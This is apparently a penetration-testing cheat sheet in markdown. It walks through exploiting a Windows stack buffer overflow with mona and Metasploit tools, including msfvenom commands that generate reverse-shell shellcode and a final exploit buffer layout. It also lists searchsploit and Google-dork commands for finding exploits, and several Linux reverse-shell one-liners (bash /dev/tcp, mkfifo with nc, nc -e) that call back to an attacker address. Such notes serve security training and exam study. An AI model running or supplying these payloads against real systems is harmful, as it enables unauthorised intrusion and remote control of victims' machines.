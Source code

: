 #### Vulnerability analysis

## Buffer Overflow
```bash
# BASIC GUIDE
1. Send "A"*1024
2. Replace "A" with /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l LENGTH
3. When crash "!mona findmsp" (E$IP offset) or ""/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q TEXT" or "!mona pattern_offset eip"
4. Confirm the location with "B" and "C"
5. Check for badchars instead CCCC (ESP):
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10" "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20" 
... )
with script _badchars.py and 
"!mona compare -a esp -f C:\Users\IEUser\Desktop\badchar_test.bin"
 5.1 AWESOME WAY TO CHECK BADCHARS ( https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/ ):
    a. !mona config -set workingfolder c:\logs\%p
    b. !mona bytearray -b "\x00\x0d"
    c. Copy from c:\logs\%p\bytearray.txt to python exploit and run again
    d. !mona compare -f C:\logs\%p\bytearray.bin -a 02F238D0 (ESP address)
    e. In " data", before unicode chars it shows badchars.
 6. Find JMP ESP with "!mona modules" or "!mona jmp -r esp" or "!mona jmp -r esp -cpb '\x00\x0a\x0d'" find one with security modules "FALSE"
6.1 Then, "!mona find -s "\xff\xe4" -m PROGRAM/DLL-FALSE"
6.2 Remember put the JMP ESP location in reverse order due to endianness: 5F4A358F will be \x8f\x35\x4a\x5f


7. Generate shellcode and place it:
msfvenom -p windows/shell_reverse_tcp LHOST=$IP LPORT=4433 -f python –e x86/shikata_ga_nai -b "\x00"

msfvenom -p windows/shell_reverse_tcp lhost=$IP lport=443 EXITFUNC=thread -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f python -v shellcode

8. Final buffer like:
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode


```
## Find xploits - Searchsploit and google
```bash
#Google
site:exploit-db.com apache 2.X.X

searchsploit Apache 2.X.X
searchsploit Apache | grep -v '/dos/' | grep -vi "tomcat"

```
## Reverse Sells
```bash
# Linux
bash -i >& /dev/tcp/$IP/4443 0>&1

/bin/sh -i > /dev/tcp/x.x.x.x/6969 0<&1 2>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP 4443 >/tmp/f

nc -e /bin/sh $IP 4443
```